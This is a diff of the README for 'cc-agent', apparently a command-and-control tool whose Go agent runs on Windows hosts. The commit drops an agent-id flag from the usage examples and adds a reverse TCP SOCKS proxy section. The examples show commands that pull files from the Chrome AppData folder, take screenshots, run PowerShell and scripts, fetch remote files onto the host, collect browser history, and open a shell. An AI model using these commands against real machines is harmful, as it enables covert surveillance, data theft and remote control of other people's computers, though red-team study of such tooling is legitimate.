

Before and after one commit to JeanBonBeurre34/cc-agent, a Markdown page: README.md, the part around the change printed below. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -161,7 +131,7 @@ python client.py --command 'download "C:\Users\vboxuser\AppData\Local\Google\Chr
 The agent support taking a screenshot
 To initiate take a screenshot just type:
 ```bash
-python client.py --command "screenshot" --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --command "screenshot"
 ```
 The file will be downloaded on the agent server and stored on inside a local folder named received_file.
 
@@ -169,31 +139,46 @@ The file will be downloaded on the agent server and stored on inside a local fol
 The agent support to run powershell command
 To run a powershell command type:
 ```bash
-python client.py --command "powershell (Get-ItemProperty -Path 'HKCU:\Keyboard Layout\Preload').PSObject.Properties" --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --command "powershell (Get-ItemProperty -Path 'HKCU:\Keyboard Layout\Preload').PSObject.Properties"
 ```
 
 ### Run powershell script
 The agent can run local powershell script on the remote host. The script should be already available on the remote host. You need to specify the script location on the host running the agent
 ```bash
-python client.py --command "run_script C:\Users\user\Desktop\test-script.ps1"" --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --command "run_script C:\Users\user\Desktop\test-script.ps1""
 ```
 ### Fetch file from remote url
 This helper support downloading a file from a remote http server directly on the host
 ```bash
-python client.py --command "fetchfile http://192.168.56.101/script.ps1 C:\Users\user\Desktop\test.ps1" --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --command "fetchfile http://192.168.56.101/script.ps1 C:\Users\user\Desktop\test.ps1"
 ```
 ### Browser History
 The agent support checking the browser history and location of the history. The following command will list the browser installed and the location of the history:
 ```bash
-python client.py --command "browser_history" --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --command "browser_history"
 ```
 Than you can download the browser history running the download option.
 
 ### Public Ip
 The following command return the public ip where the agent is running calling ipinfo.
 ```bash
-python client.py --command "publicip" --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --command "publicip"
 ```
+
+### Forward TCP proxy
+You can start a reverse tcp proxy
+```bash
+python client.py --command "reverse_proxy_start"
+```
+
+To stop it just use this command
+```bash
+python client.py --command "reverse_proxy_stop"
+```
+By default the server.py will create two port 1080 to listen locally on locahost and 5555 to catch the incoming reverse tcp tunnel.
+You need to update the proxychain config: /etc/proxychains.conf to add the following line
+socks5 127.0.0.1 1080
+
 ### Agent operation
 The Go agent, once started, will periodically check the server for commands to execute. If the "shell" command is received, it will attempt to establish a shell connection to the listener address.
 
````
Also changed, not shown: other parts of README.md (+28 -35 lines).
